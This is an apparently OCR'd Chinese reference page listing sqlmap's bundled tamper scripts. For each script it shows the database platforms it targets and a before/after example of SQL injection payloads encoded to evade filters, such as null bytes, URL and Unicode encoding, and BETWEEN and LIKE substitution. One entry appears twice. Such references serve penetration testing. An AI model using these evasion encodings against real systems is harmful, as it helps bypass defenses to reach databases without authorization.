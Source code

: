 

#### 自带tamper介绍

```
apostrophemask.py
功能：对引号进行 utf-8 格式编码 (% EF% BC%87)
平台：All
举例：1 AND ‘1’=’1 ==> 1 AND % EF% BC%871% EF% BC%87=% EF% BC%871

apostrophenullencode.py
功能：用非法的双 unicode 字符 (%00%27) 替换引号字符
平台：All
举例：1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271

appendnullbyte.py
功能：在有效载荷结束位置加载零字节字符编码
平台：Microsoft Access
举例：1 AND 1=1 ==> 1 AND 1=1%00

base64encode.py
功能：用 base64 格式进行编码
平台：All
举例：1’ AND SLEEP (5)# ==> MScgQU5EIFNMRUVQKDUpIw==

between.py
功能：用 between 替换大于号（>）
平台：Mssql2005、MySQL 4/5.0/5.5、Oracle 10g、PostgreSQL 8.3/8.4/9.0
举例：
1 AND A > B –  ==> 1 AND A NOT BETWEEN 0 AND B  –
1 AND A = B –  ==> 1 AND A BETWEEN B AND B –

bluecoat.py
功能：对 SQL 语句替换空格字符为 (%09)，并替换”=”—>”LIKE”
平台：MySQL 5.1, SGOS
举例：SELECT username FROM users WHERE id = 1 ==> SELECT%09username FROM%09users WHERE%09id LIKE 1

apostrophemask.py
功能：用 utf-8 格式编码引号 (如：% EF% BC%87)
平台：All
举例：1 AND ‘1’=’1 ==> 1 AND % EF% BC%871% EF% BC%87=% EF% BC%871

charunicodeencode.py
功能：对字符串进行 Unicode 格式转义编码
平台：Mssql 2000,2005、MySQL 5.1.56、PostgreSQL 9.0.3 ASP/ASP.NET
举例：SELECT FIELD%20FROM TABLE ==> % u0053% u0045% u004C% u0045% u0043% u0054% u0020% u0046% u0049% u0045% u004C% u0044% u0020% u0046% u0052% u004F% u004D% u0020% u0054% u0041% u0042% u004C% u0045

charencode.py
功能：采用 url 格式编码 1 次
平台：Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
举例：SELECT FIELD FROM%20TABLE ==> %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

chardoubleencode.py
功能：采用 url 格式编码 2 次
平台：All
举例：SELECT FIELD FROM%20TABLE ==> %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545

commalessmid.py
功能：将 payload 中的逗号用 from 和 for 代替，用于过滤了逗号并且是 3 个参数的情况
平台：MySQL 5.0, 5.5
举例：MID (VERSION (), 1, 1) ==> MID (VERSION () FROM 1 FOR 1)

```
